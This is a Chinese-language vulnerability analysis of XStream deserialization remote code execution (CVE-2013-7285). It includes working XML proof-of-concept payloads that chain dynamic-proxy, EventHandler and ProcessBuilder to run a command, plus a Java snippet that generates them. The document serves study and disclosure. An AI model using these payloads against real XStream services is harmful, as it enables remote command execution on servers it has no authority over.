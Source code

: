 # 0x00 漏洞影响版本

```java
/**
 * CVE-2013-7285
 *
 * affected version: <= 1.4.6, 1.4.10(new cve record: CVE-2019-10173)
 */
```

# 0x01 漏洞环境

本地JavaSE maven工程

# 0x02 漏洞分析

PoC如下：

```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```

```java
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

PoC里用到了`<dynamic-proxy>`，这个代表说`XStream`在对其反序列化的时候会使用到动态代理转换器-`DynamicProxyConverter`，官方文档中关于其解释如下：

![](pic/xstream-cve137285-1.png)。

- 什么是`Converter`?
>Converter是XStream的核心组成，它提供了一种用于特定类型的对象与XML之间进行转换的策略。
>XStream提供了通用类型的转换器，如基本类型、字符串、文件、集合、数组和日期类型等。详细的转换器类型请查阅官方文档。(参考[3])。

而`<dynamic-proxy>`则是动态代理技术在XStream环境下xml内容的表现形式。关于动态代理，我在之前的文章中讲到过(参考[4])，这里不再细说。

如官方文档对`DynamicProxyConverter`的描述，负责处理方法调用的`InvocationHandler`和动态代理所实现的接口都将会被反序列化。

上面的PoC中，使用了`java.beans.EventHandler`类作为具体的`InvocationHandler`。

来看一个简单的场景: 服务器想要接收一个指定接口的序列化实例。服务端代码如下：

```java
@Controller
@RequestMapping("/contacts")
public class ContactController {
    @Autowired
    private ContactRepository contactRepository;

    @RequestMapping( method = RequestMethod.POST )
    @ResponseStatus( HttpStatus.CREATED )
    public final String create( @RequestBody Contact contact ){
        log("Creating new contact: " + contact.getFirstName());
        contactRepository.save(contact);
        return "OK";
    }
 }
```

可以看出服务器希望接收到的请求内容如下：
```xml
<contact>
  <id>1</id>
  <firstName>alvaro</firstName>
  <lastName>munoz</lastName>
  <email>alvaro@pwntester.com</email>
</contact>
```

如果想攻击服务端，我们可以利用动态代理技术去拦截接口的任意方法调用，并在其中注入恶意代码：
- (1) 首先要确定动态代理要实现的接口，这个例子是：`com.company.model.Contact`;
- (2) 创建`com.company.model.Contact`的代理类。
- (3) 拦截该接口的任何方法调用。
- (4) 使用恶意的payload替换原本的方法调用。

因此，该例子的PoC实现如下：

```xml
<dynamic-proxy>
<interface>com.company.model.Contact</interface>
<handler class="java.beans.EventHandler">
    <target class="java.lang.ProcessBuilder">
      <command>
        <string>open</string>
        <string>-a</string>
        <string>calculator</string>
      </command>
    </target>
    <action>start</action>
</handler>
</dynamic-proxy>
```

其中，`java.beans.EventHandler`为动态代理的`InvocationHandler`处理类，该处理类将使用`java.lang.ProcessBuilder#start()`方法去替换原始的方法调用。
这个例子中，一旦服务器代码到达代理接口上的方法调用，就像代码中的下面这行：

```java
log("Creating new contact: " + contact.getFirstName());
```

方法调用将被拦截，并用我们的payload进行替换，结果是服务器上打开了一个计算器。

但是这跟前面一开始给出的PoC不太一样呀。是的，这里的PoC并不通用，而且仅针对这个例子有效。
因为除非是白盒审计，否则想知道要实现服务端的哪个类，是非常困难的。


这个问题的解决方案是序列化一个包含其他对象的对象，为了实例化这个对象，必须调用一个接口方法。在这里，我们可以使用`InvocationHandler`注入恶意代码。下面的想法是由`Jörg Schaible (XStream developer)`在向XStream团队披露时提出的。这种变体包括序列化`java.util.TreeSet`包含不同对象的树集合，实现`java.lang.Comparable`这样，当`Set`在服务器端实例化时，就会调用`Comparable`接口方法来对`Set`集合的元素进行进行排序。现在我们需要做的就是添加一个动态代理，拦截`Comparable`接口的任何方法调用，并用我们的有效负载替换它。代码如下：

```java
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("open","-a", "calculator"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```

由于这里`XStream#toXML()`会抛出异常`java.lang.ClassCastException: java.lang.UNIXProcess cannot be cast to java.lang.Integer`。所以这里我们得手动编写xml的PoC，如下，这个也就是开头给出PoC。


```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>-a</string>
          <string>calculator</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```


![](pic/xstream-cve137285-2.png)






# Reference
[1] http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
[2] https://x-stream.github.io/security.html
[3] https://x-stream.github.io/converters.html
[4] https://medium.com/@m01e/ysoserial-groovy1%E6%A8%A1%E5%9D%97%E5%88%86%E6%9E%90-2d53f197efc4
